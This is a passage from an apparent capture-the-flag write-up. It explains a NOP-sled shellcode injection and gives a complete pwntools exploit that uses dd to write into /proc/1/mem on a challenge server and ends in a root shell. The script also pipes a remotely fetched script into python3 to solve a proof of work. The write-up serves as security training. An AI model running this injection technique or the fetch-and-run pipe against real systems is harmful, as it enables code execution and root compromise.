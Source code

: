 - There's an instruction, `\x31\xc9`, which has no side effects. You can use it to insert bytes that are outside the `0-7f` range.
- We can use this to create a NOP sled (a sequence of NOP instructions, e.g., `\x31\xc9\x90`).
- Write the string `b"/bin/sh"` and the NOP sled into memory at the specified offset, followed by our actual shellcode.
- The shellcode will then load the address of `"/bin/sh"` into the `rdi` register.
- As long as the NOP sled is large enough and the interpreter starts executing from somewhere within it, we'll reach your shellcode.
- Since you know the address of `"/bin/sh"`, you can load that into `rdi` and make the `syscall`.
- This way, we don't need to know the exact starting address; you just need to provide a large number of NOPs.
Putting it all together, we get the exploit script:
```python
from pwn import *

context.log_level = 'debug'

# Connect to challenge
p = remote('datadefinition.2025.ctfcompetition.com', 1337)

# ============ POW ============
p.recvuntil(b'You can run the solver with:\n    ')
pow_line = p.recvline().decode().strip()
token = pow_line.split()[-1]
print("Wait for POW to be solved...")

# Run: curl script | python3 - solve <token>
cmd = f"curl -sSL https://goo.gle/kctf-pow | python3 - solve {token}"
result = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, text=True)
pow_ans = result.stdout.strip()
print("POW answer obtained!")

p.recvuntil(b'Solution? ')
p.sendline(pow_ans.encode())
# ============ POW ============

# Send dd arguments
payload = b'if=/proc/self/fd/0 of=/proc/1/mem bs=1 seek=4325376'
p.sendlineafter(b'  > What is your favorite dd line?: ', payload)

# Craft stdin payload
NOP_SLED_SIZE =0x1100

shellcode = b"\x89\xce\x90\x56\x68\x00\x00\x42\x00\x5f\x6a\x3b\x58\x48\x31\xd2\x90\x0f\x05"

payload = (
    b"/bin/sh\x00"
    + b"\x31\xc9\x90" * NOP_SLED_SIZE
    + b"\x31\xc9"
    + shellcode
)

p.sendlineafter(b'  > Any input to go with it?: ', payload)

p.recvuntil(b"I like it! Let's give it a go!\n")

# Access shell manually
p.interactive()
```
Now `id` command reveals we are root user
```
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```